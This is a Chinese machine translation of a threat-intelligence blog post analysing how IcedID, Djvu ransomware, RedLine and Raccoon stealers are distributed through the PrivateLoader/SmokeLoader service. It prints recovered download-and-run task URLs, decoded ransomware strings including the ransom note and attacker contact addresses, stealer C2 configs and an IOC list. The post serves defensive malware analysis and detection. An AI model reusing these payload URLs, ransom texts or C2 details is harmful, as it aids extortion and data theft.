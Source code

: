 # IcedID 利用 PrivateLoader

> 原文：<https://medium.com/walmartglobaltech/icedid-leverages-privateloader-7744771bf87f?source=collection_archive---------6----------------------->

作者:约书亚·普拉特和杰森·里维斯

![](img/511f98480cf242aad3d5128738d25495.png)

PrivateLoader[1，2，3，4]继续作为有效的装载服务发挥作用，最近利用 SmokeLoader 进行装载。

他们的 SmokeLoader 的最新样本可以在这里看到(b 01195 C3 e 828d 9 a 79 c 958 E4 c 810 a 363d 804d 51996337 db 89 a5d 248096846 b 27 a)，该样本的 C2 域是 PrivateLoader 的标志:

```
host-file-host6.com
host-host-file8.com
```

这些域只是简单的代理，但是在它们的背后是一个巨大的操作，为不同的客户执行数百万的负载。最近，一位新客户开始利用这项服务，这引起了我们的注意，在前面提到的 SmokeLoader 散列中，您可以看到正在运行的所有任务:

![](img/743f8a2e6a3a5ed0fabfd9228e91fe0a.png)

Ref: Virustotal.com

从 DNS 解析中，我们可以看到 SmokeLoader 与相当多的其他活动一起登记，其中一些与机器人加载的任务有关，但域的 deficulintersun[。]com 是 IcedID 加载程序的 C2。幸运的是，VirusTotal 上的 Zenbox 为我们留下了一个 PCAP，因此我们可以解密 SmokeLoader 流量，并有望恢复任务。

C2 交通

```
\xe4\x078F1CEBFF99E357584119ACFBC1B392A2383170A8\x00DESKTOP-B0T93D6\x00pub3\x00
```

所以组是 pub3，bot 的版本是 0x7e4 或者 2020。恢复的任务如下:

```
Location: http://rgyui.top/dl/buildz.exe
Location: https://dl.uploadgram.me/62e817d1aff5ah?dl
Location: https://allejee.com/bulking.exe
Location: http://194.87.31.137/7loader_exe_64.exe
Location: http://2.58.28.60/csflow.exe
```

# 烟雾弹任务

我从 buildz.exe 得到的文件显示是 Djvu 勒索软件，这里更有趣的部分是勒索软件样本是用与 SmokeLoader 样本相同的密码器加密的。再加上 IcedID 已被视为导致勒索软件本身的事实，服务提供商与其客户或竞争客户之间可能会发生利益冲突？

解码的 Djvu 字符串:

```
http://acacaca.org/test1/get.php 2http://rgyui.top/dl/build2.exe$run http://acacaca.org/files/1/build3.exe$run 3Select Dec... 4_readme.txt 5ATTENTION! 6Don't worry, you can return all your files! 7All your files like pictures, databases, documents and other important are encrypted with s 8trongest encryption and unique key. 9The only method of recovering files is to purchase decrypt tool and unique key for you. 10This software will decry 11pt all your encrypted files. 12What guarantees you have? 13You can send one of your encrypted file from your PC and we decrypt it for free. 14But we can 15decrypt only 1 file for free. File must not contain valuable information. 16You can get and look video overview decrypt tool: 17https://we.tl/t-QsoSRIeA 18Price of private key and decrypt software is $980\. 19Discount 50% available if you contact us first 72 hours, that's price for you is $490\. 20Please 21 note that you'll never restore your data without payment. 22Check your e-mail "Spam" or "Junk" folder if you don't get answer more than 6 hours. 23To get this software you need write on our e-mail: 24support@bestyourmail.ch 25Reserve e-mail address to contact us: 26datarestorehelp@airmail.cc 27ur personal ID: 280530Jhyjd 29.vvew 30/acacaca.org/test1/get.php 31/acacaca.org/test1/get.php 32ntuser.dat|ntuser.dat.LOG1|ntuser.dat.LOG2|ntuser.pol|.sys|.ini|.DLL|.dll|.blf|.bat|.lnk|.regtrans-ms|C:\SystemID\|C:\Users\Default User\|C:\Users\Pub 33lic\|C:\Users\All Users\|C:\Users\Default\|C:\Documents and Settings\|C:\ProgramData\|C:\Recovery\|C:\System Volume Information\|C:\Users\%username%\A 34ppData\Roaming\|C:\Users\%username%\AppData\Local\|C:\Windows\|C:\PerfLogs\|C:\ProgramData\Microsoft\|C:\ProgramData\Package Cache\|C:\Users\Public\|C 35:\$Recycle.Bin\|C:\$WINDOWS.~BT\|C:\dell\|C:\Intel\|C:\MSOCache\|C:\Program Files\|C:\Program Files (x86)\|C:\Games\|C:\Windows.old\|D:\Users\%usernam 36e%\AppData\Roaming\|D:\Users\%username%\AppData\Local\|D:\Windows\|D:\PerfLogs\|D:\ProgramData\Desktop\|D:\ProgramData\Microsoft\|D:\ProgramData\Packa 37ge Cache\|D:\Users\Public\|D:\$Recycle.Bin\|D:\$WINDOWS.~BT\|D:\dell\|D:\Intel\|D:\MSOCache\|D:\Program Files\|D:\Program Files (x86)\|D:\Games\|E:\Us 38ers\%username%\AppData\Roaming\|E:\Users\%username%\AppData\Local\|E:\Windows\|E:\PerfLogs\|E:\ProgramData\Desktop\|E:\ProgramData\Microsoft\|E:\Progr 39amData\Package Cache\|E:\Users\Public\|E:\$Recycle.Bin\|E:\$WINDOWS.~BT\|E:\dell\|E:\Intel\|E:\MSOCache\|E:\Program Files\|E:\Program Files (x86)\|E:\ 40Games\|F:\Users\%username%\AppData\Roaming\|F:\Users\%username%\AppData\Local\|F:\Windows\|F:\PerfLogs\|F:\ProgramData\Desktop\|F:\ProgramData\Microso 41ft\|F:\Users\Public\|F:\$Recycle.Bin\|F:\$WINDOWS.~BT\|F:\dell\|F:\Intel\ 42-----BEGIN PUBLIC KEY-----\\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAwX6oUNb4mk19lyNBxK80\\nWDzdQgJ9XMg2LdYk3Hm0F0zP2rWDuKVpyAbosbOzGKbJOkVa\/1Xby 43tFAm8RYfkB\/\\nnfEgGh5OGcw\/CcqqOL3R4Vpd7slLVXc56FLkTWEMSShzg1sNxgIiQm8VcaXOgUk8\\ntvWKcUIV9ujXmn5UBSy\/ICDPveI3QCaxZod7kIBwZzszO\/3CvNwAy3eejgJ6j8ie\ 44\nmwJ9pjskzLjmq92yhDGUQygWfGw0tL1KtSiqUy2M7KNdmD4FX1aVeutZC9bggvn8\\nV4ksJChvMxI521ms58donyKjwBAbKXBfVRaXUV2k34bI0NQqhLz5OeGIRhn67oe+\\njwIDAQAB\\n--- 45--END PUBLIC KEY----- 46ild2.exe$run http://acacaca.org/files/1/build3.exe$run 47rE5LpDv2ftYRXAo7bC18EpzfRMTHSGjgfyIMfZt1 48/acacaca.org/files/1/build3.exe$run
```

来自上传程序 62e817d1aff5ah 的文件原来是红线窃用者:

```
{'C2': '193.233.193.14:8163', 'BOTNET': 'LogsDiller Cloud (Sup: @mr_golds)'}
```

我们发现 allejee 的文件时，该文件已关闭，但我们确实在 VirusTotal 中发现了该服务器的同名文件:

```
03626471a65baf211f2110cd91e52b9e44524780e042a473cd09d864d9af20a0
```

7 月，同一台服务器上有 ITW 的网址:

![](img/1023b130d141a0bda169257075be3ee8.png)

Ref: [https://www.virustotal.com/gui/file/03626471a65baf211f2110cd91e52b9e44524780e042a473cd09d864d9af20a0/relations](https://www.virustotal.com/gui/file/03626471a65baf211f2110cd91e52b9e44524780e042a473cd09d864d9af20a0/relations)

这个文件是一个自解压 EXE 文件，由 Nir Sofer 签名，解压后的 EXE 文件是一个简单的。基于. NET 的加载程序，将下载和执行更多。NET 代码，最终这导致浣熊盗窃者 V2[5]。

![](img/5d5cdb0c9c7757033d6b3d43dd95f3ef.png)

.NET based loader

csflow.exe 的可执行文件是 CoinSurf 的安装程序，它允许人们将他们的流量使用货币化。

最后，7loader_exe_64.exe 文件是 IcedID 加载程序:

```
{'C2': 'deficulintersun.com', 'Campaign': 1514253643}
```

PrivateLoader 并不是第一次有一些更大的名字利用它，因为以前的研究表明它以前被 TrickBot，Qakbot，DanaBot 和 Dridex 利用过。更紧迫的问题是，为什么这些组织会利用一个主动窃取数据并在他们的机器人上放置勒索软件的系统？

# IOCs

SmokeBot 任务:

![](img/6da0be547df47f159f1c957c158a7425.png)

网络指示器:

```
rgyui.top
allejee.com
194.87.31.137
2.58.28.60
host-file-host6.com
host-host-file8.com
64.52.80.224 - Raccoon Stealer
deficulintersun.com - IcedID
acacaca.org - Djvu Ransomware
193.233.193.14:8163 - RedLine Stealer
2.58.28.60/install.txt
2.58.28.60/startup.txt
```

# 参考

1:[https://intel471.com/blog/privateloader-malware](https://intel471.com/blog/privateloader-malware)

2:[https://medium . com/walmartglobaltech/private loader-to-anubis-loader-55d 066 a 2653 e](/walmartglobaltech/privateloader-to-anubis-loader-55d066a2653e)

3:[https://www . z scaler . com/blogs/security-research/peeking-private loader](https://www.zscaler.com/blogs/security-research/peeking-privateloader)

4:[https://Tavares . re/blog/2022/06/06/hunting-priva loader-pay-per-install-service/](https://tavares.re/blog/2022/06/06/hunting-privateloader-pay-per-install-service/)

5:[https://www . bleeping computer . com/news/security/浣熊-steaker-is-back-with-a-new-version-to-steak-your-passwords/](https://www.bleepingcomputer.com/news/security/raccoon-stealer-is-back-with-a-new-version-to-steal-your-passwords/)